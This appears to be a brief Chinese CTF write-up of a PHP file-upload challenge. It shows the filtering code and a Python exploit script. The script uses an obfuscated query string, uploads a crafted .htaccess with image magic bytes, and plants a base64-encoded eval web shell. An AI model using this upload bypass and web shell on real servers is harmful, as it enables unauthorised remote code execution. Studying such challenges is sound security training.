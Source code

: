 ```javascript
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!!
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
        mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
        if(preg_match("/ph/i",$extension)) die("^_^");
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
        if(!exif_imagetype($tmp_name)) die("^_^");
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}
```

该函数可以上传文件。但是会检测文件内容：ph,<?都无法使用。



此时只有一个方法，上传.htaccess文件将，另外上传的文件当做php执行文件。



exp:

```javascript
import requests
import base64

url = "http://e6934d21-0f78-4fc7-b24c-9e49073933b7.node3.buuoj.cn/?_=${`%`fe%fe%fe%fe^%a1%b9%bb%aa}{`%`fe}();&%fe=get_the_flag"


htaccess = b"""\x00\x00\x8a\x39\x8a\x39
AddType application/x-httpd-php .cc
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_2c67ca1eaeadbdc1868d67003072b481/shell.cc"

"""

shell = b"\x00\x00\x8a\x39\x8a\x39"+b"00"+ base64.b64encode(b"<?php eval($_GET['c']);?>")
#shell = b"\x00\x00\x8a\x39\x8a\x39"+b"00"+ b"<script language='php'>eval($_REQUEST[c]);</script>"

files = [('file',('.htaccess',htaccess,'image/jpeg'))]

data = {"upload":"Submit"}

# 上传.httaccess
proxies = {"http":"http://127.0.0.1:8080"}
r = requests.post(url=url, data=data, files=files)#proxies=proxies)
print(r.text)

# 上传shell.cc
files = [('file',('shell.cc',shell,'image/jpeg'))]
r = requests.post(url=url, data=data, files=files)
print(r.text)
```
